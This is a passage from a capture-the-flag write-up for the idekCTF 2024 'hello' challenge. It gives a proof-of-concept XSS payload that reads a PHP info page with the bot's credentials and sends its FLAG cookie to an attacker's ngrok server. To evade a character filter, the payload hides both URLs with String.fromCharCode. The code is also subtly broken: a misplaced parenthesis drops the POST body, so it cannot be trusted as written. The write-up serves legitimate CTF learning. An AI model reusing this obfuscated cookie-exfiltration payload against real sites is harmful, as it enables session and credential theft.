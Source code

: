 Let's try that:

![](https://github.com/siunam321/CTF-Writeups/blob/main/idekCTF-2024/images/Pasted%20image%2020240819174215.png)

Nice! It worked!

## Exploitation

Armed with the above information, we can exfiltrate the bot's `FLAG` cookie via two steps:
1. Send a GET request to `/info.php/.php` to retrieve the cookie's value.
2. Send a request with the `FLAG` cookie to our attacker server.

Before we do that, in the `Enhanced_Trim` function, it also replaces the character `/`, which means we'll need to work around for the URLs.

To do so, we can base64 encode and decode our payload, then use the JavaScript `eval` function to execute our payload. Alternatively, we can use the `String` object's static method `fromCharCode` to convert ASCII code into ASCII characters.

Here's the Proof-of-Concept JavaScript payload:

```javascript
// http://idek-hello.chal.idek.team:1337/info.php/.php
const targetUrl = String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 105, 100, 101, 107, 45, 104, 101, 108, 108, 111, 46, 99, 104, 97, 108, 46, 105, 100, 101, 107, 46, 116, 101, 97, 109, 58, 49, 51, 51, 55, 47, 105, 110, 102, 111, 46, 112, 104, 112, 47, 46, 112, 104, 112);
// https://aaa-123-456-789-123.ngrok-free.app
const attackerUrl = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 97, 97, 97, 45, 49, 50, 51, 45, 52, 53, 54, 45, 55, 56, 57, 45, 49, 50, 51, 46, 110, 103, 114, 111, 107, 45, 102, 114, 101, 101, 46, 97, 112, 112);

fetch(targetUrl, {
        credentials: 'include'
    })
    .then(response => response.text())
    .then(data =>
        fetch(attackerUrl), {
            method: 'POST',
            body: JSON.stringify({
                text: data
            })
        }
    );
```
